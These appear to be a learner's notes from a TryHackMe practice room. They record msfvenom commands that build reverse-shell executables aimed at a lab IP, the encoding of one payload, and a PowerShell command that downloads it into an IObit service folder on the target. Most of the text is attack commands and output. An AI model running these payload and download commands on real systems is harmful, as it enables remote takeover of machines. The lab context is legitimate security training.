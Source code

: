         #I do

#3 = create payload 
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.59.68 LPORT=5555 -f exe > advancing.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes

        #3b - I believe its once again necessary to move this to the same directory as that of the httpserver before uploading it to the reverse shell
        
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.59.68 LPORT=5555 -e x86/shikata_ga_nai -f exe -o Advancing.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)  
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advancing.exe

┌──(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ cp Advancing.exe /usr/share/windows-resources/binaries/Advancing.exe
cp: cannot create regular file '/usr/share/windows-resources/binaries/Advancing.exe': Permission denied

┌──(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ sudo !!                                                                                             1 ⨯

┌──(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ sudo cp Advancing.exe /usr/share/windows-resources/binaries/Advancing.exe                           1 ⨯
[sudo] password for kali: 


#uploaded the payload
C:\Program Files (x86)\IObit\Advanced SystemCare>powershell -c "Invoke-WebRequest -OutFile ASCService.exe http://10.11.59.68/Advancing.exe"
powershell -c "Invoke-WebRequest -OutFile Advancing.exe http://10.11.59.68/Advancing.exe"

C:\Program Files (x86)\IObit\Advanced SystemCare>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Program Files (x86)\IObit\Advanced SystemCare
 
02/02/2022  11:34 AM    <DIR>          .
02/02/2022  11:34 AM    <DIR>          ..
12/28/2015  12:48 PM            64,800 About.dll
07/27/2016  10:24 AM           310,560 About.exe
09/26/2019  07:18 AM            21,506 ActionCenter2.log
01/07/2016  05:13 PM         2,254,624 ActionCenterDownloader.exe
02/02/2022  11:34 AM            73,802 Advancing.exe
